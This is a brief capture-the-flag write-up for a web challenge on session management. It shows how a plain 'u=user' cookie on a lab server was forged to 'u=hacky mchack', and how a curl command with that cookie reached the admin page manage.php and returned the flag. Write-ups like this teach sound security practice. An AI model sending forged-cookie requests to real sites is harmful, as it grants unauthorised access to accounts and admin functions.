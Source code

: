 # Web: Cookies and Session Management: Chef hacky mchack

Visiting http://141.85.224.70:8087/ loaded a typical HTML-based portfolio.

Using browser dev tools, under Application → Cookies, we observed:

```makefile
Cookie: u=user
```

Since the challenge was about session management, we tried changing the cookie value.

## Exploitation

Using the challenge title as inspiration, we modified the cookie to:

```ini
u=hacky mchack
```

Then we accessed a likely admin-only page, manage.php that we found on the main page in the top navbar:

```bash
curl -s -b "u=hacky mchack" http://141.85.224.70:8087/manage.php
```

This returned: <div style="opacity: 0.05">**SSS{n0_m0r3_c00ki3s_f0r_y0u_m1st3r}**</div>
